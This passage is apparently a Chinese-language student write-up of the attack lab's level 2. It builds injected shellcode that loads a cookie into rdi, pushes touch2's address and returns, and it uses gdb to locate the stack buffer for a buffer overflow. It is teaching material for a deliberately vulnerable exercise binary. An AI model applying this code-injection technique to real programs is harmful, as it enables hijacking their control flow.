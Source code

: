 ```assembly
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

注意到函数的第一个参数通常都是由 rdi 来传的，于是这里我们可以在 lev1 的基础上，在覆盖中插入给 rdi 赋值的过程。

参考附录B的构建过程，由于我的 cookie 值是 0x59b997fa：

```
mov $0x59b997fa %rdi
pushq $0x4017ec /* 这里的 pushq 将 touch2 压入栈，栈指针会下移*/
retq  
```

编辑后：

```assembly
gcc -c 1lev2.s
objdump -d 1lev2.o > 1lev2.byte
#得到
1lev2.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

得到所需的字节码，接下来我们需要寻找缓冲区的位置，然后在对应位置进行插入，打开 gdb，设置断点。

```assembly
b Gets
x/50bx $rsp #查看缓冲区的入口位置,其实p $rsp就够了
#但最好还是掌握大体的位置
0x5561dc70:     0xb4    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc78:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dca0:     0x76    0x19
```

注意到开头的 4017b4 正是 getbuf 中 mov 的地址：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
```

这里对应的正是到时候在 Gets 中 ret 返回的内容，显然我们找对了地方，于是编辑字节码。

返回后才是我们缓冲区的位置。
